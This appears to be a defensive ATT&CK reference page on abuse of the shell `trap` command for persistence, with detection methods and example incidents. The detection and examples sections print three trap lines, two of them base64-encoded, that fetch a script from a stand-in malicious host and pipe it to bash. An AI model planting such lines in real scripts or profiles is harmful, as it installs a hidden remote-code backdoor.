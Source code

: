 ```yaml
---
description: Trap [T1546.005]
icon: lock
---
```


# Trap

## Information

* Name: Trap
* ID: T1546.005
* Tactics: [TA0004](../), [TA0003](../../ta0003/)
* Technique: [T1546](./)

## Introduction

Trap ([T1546.005](https://attack.mitre.org/techniques/T1546/005/)) is a sub-technique under the MITRE ATT\&CK framework categorized within persistence mechanisms. Adversaries leverage the Unix/Linux `trap` command to execute malicious scripts or commands when shell scripts receive signals or exit events. This allows attackers to maintain persistence on compromised systems by embedding malicious commands within legitimate shell scripts, ensuring repeated execution without direct user intervention.

## Deep Dive Into Technique

The Unix/Linux `trap` command is a built-in shell command used to define and execute actions upon receiving specific signals or upon script termination. Attackers exploit this feature to embed malicious commands or scripts within legitimate shell scripts, resulting in persistent execution each time the script terminates or receives a predetermined signal.

Technical details include:

* **Signal Handling:**\
  The `trap` command can intercept various signals, such as:
  * `EXIT` (executed when a script exits)
  * `INT` (interrupt from keyboard, typically Ctrl+C)
  * `TERM` (termination signal)
  * `HUP` (hangup signal, typically terminal closure or logout)
*   **Persistence Mechanism:**\
    Attackers insert malicious commands into legitimate scripts or configuration files using the syntax:

    ```bash
    trap '<malicious_command_or_script>' EXIT
    ```

    This ensures that whenever the script exits, intentionally or unintentionally, the malicious command executes.
* **Obfuscation Techniques:**\
  Adversaries often obfuscate trap commands to evade detection by:
  * Encoding commands with base64 or hex encoding.
  * Embedding commands within complex script logic or conditional statements.
  * Leveraging environment variables to hide malicious payloads.
* **Commonly Targeted Files and Scripts:**\
  Attackers frequently target scripts executed regularly or at system startup, such as:
  * `/etc/profile`
  * `/etc/bashrc`
  * User-specific scripts (`~/.bashrc`, `~/.bash_profile`)
  * System-wide scheduled scripts or cron jobs

## When this Technique is Usually Used

This technique predominantly appears in the persistence phase of the cyber kill chain, ensuring that attackers maintain access and control over compromised systems. Common scenarios include:

* **Long-term Persistence:**\
  After initial compromise, attackers embed trap commands into scripts executed regularly or at system startup, ensuring continuous access.
* **Privilege Escalation and Lateral Movement:**\
  Attackers may insert malicious trap commands into scripts executed by higher-privileged users or automated processes, facilitating privilege escalation or lateral movement across systems.
* **Stealthy Backdoor Implementation:**\
  Attackers embed trap commands to quietly execute backdoor scripts or commands upon user logout or script termination, minimizing suspicion and detection risks.
* **Post-Exploitation Stage:**\
  After initial access and reconnaissance, attackers leverage trap commands to establish persistent footholds, allowing repeated access for further exploitation, data exfiltration, or lateral movement.

## How this Technique is Usually Detected

Detection of malicious trap commands involves multiple approaches, including host-based monitoring, behavioral analysis, and signature-based detection. Common detection methods include:

* **File Integrity Monitoring (FIM):**\
  Tools like OSSEC, Tripwire, or Samhain detect unauthorized modifications to critical system scripts and configuration files.
* **Endpoint Detection and Response (EDR) Solutions:**\
  Advanced EDR tools (CrowdStrike Falcon, SentinelOne, Carbon Black) identify suspicious script behavior, unusual command executions, and anomalous trap commands.
* **Audit Logs and Command History Analysis:**\
  Regularly auditing user command histories (`~/.bash_history`) and system logs (`/var/log/auth.log`, `/var/log/syslog`) can reveal unauthorized edits and execution of trap commands.
* **Behavioral Analysis and Anomaly Detection:**\
  Monitoring tools or SIEM solutions (Splunk, ELK stack) detect anomalous script behaviors, unexpected executions, and unusual signal handling patterns.
* **Specific IoCs (Indicators of Compromise):**
  *   Unusual trap commands embedded in scripts:

      ```bash
      trap 'curl http://malicious.example.com/script.sh | bash' EXIT
      ```
  *   Base64-encoded commands within trap statements:

      ```bash
      trap 'echo d2dldCBodHRwOi8vbWFsaWNpb3VzLmV4YW1wbGUuY29tL3NjcmlwdC5zaCAtTy0gfCBiYXNoCg== | base64 -d | bash' EXIT
      ```
  * Unusual network connections initiated by scripts upon termination.

## Why it is Important to Detect This Technique

Detecting malicious use of the trap command is critical due to several significant impacts:

* **Persistent Unauthorized Access:**\
  Attackers maintain long-term footholds, enabling repeated unauthorized access, data exfiltration, and further exploitation.
* **Privilege Escalation Potential:**\
  Malicious trap commands embedded in scripts executed by privileged accounts can facilitate unauthorized privilege escalation.
* **Stealth and Evasion:**\
  Due to the subtlety and built-in nature of the trap command, attackers can evade traditional detection mechanisms, prolonging dwell time and increasing damage potential.
* **Increased Risk of Data Loss and Breaches:**\
  Persistent backdoors via trap commands facilitate continuous data exfiltration, intellectual property theft, and sensitive information leakage.
* **Operational Disruption and System Stability:**\
  Malicious commands executed via trap mechanisms can destabilize systems, disrupt operations, or cause unintended outages.

Early detection ensures timely response, reduces attacker dwell time, and minimizes potential damage to systems, data, and organizational reputation.

## Examples

Real-world examples and scenarios involving the malicious use of the trap command include:

* **Linux Malware Campaigns (HiddenWasp Malware):**
  * Attackers inserted trap commands into legitimate scripts to execute malicious payloads upon script termination.
  * Malicious scripts downloaded additional payloads and established persistent backdoor connections.
  * Impact: Persistent unauthorized access, data exfiltration, and lateral movement across compromised environments.
* **Cryptomining Attacks via Trap Commands:**
  * Attackers embedded cryptomining scripts into user shell profiles (`~/.bashrc`) using trap commands to ensure repeated execution upon session termination.
  * Malicious scripts executed cryptomining binaries, causing high CPU utilization and performance degradation.
  * Impact: Resource exhaustion, reduced system performance, increased operational costs.
* **Advanced Persistent Threat (APT) Campaigns:**
  * Nation-state actors leveraged trap commands within system-wide profile scripts (`/etc/profile`) to execute stealthy backdoor payloads upon user logout or system reboot.
  * Attackers maintained long-term persistence, enabling espionage, sensitive data exfiltration, and lateral movement.
  * Impact: Compromise of sensitive data, intellectual property theft, and prolonged attacker dwell time.
* **Obfuscated Trap Command in Real-world Incident:**
  *   Attackers inserted base64-encoded commands within trap statements to evade detection:

      ```bash
      trap 'echo Y3VybCBodHRwOi8vbWFsaWNpb3VzLmNvbS9iYWNrZG9vci5zaCB8IGJhc2gK | base64 -d | bash' EXIT
      ```
  * Malicious scripts downloaded and executed additional backdoors, allowing attackers persistent access and control.
  * Impact: Persistent backdoor establishment, unauthorized access, and operational disruption.

These examples underline the importance of vigilance, proactive monitoring, and effective detection mechanisms to mitigate risks associated with malicious trap command usage.
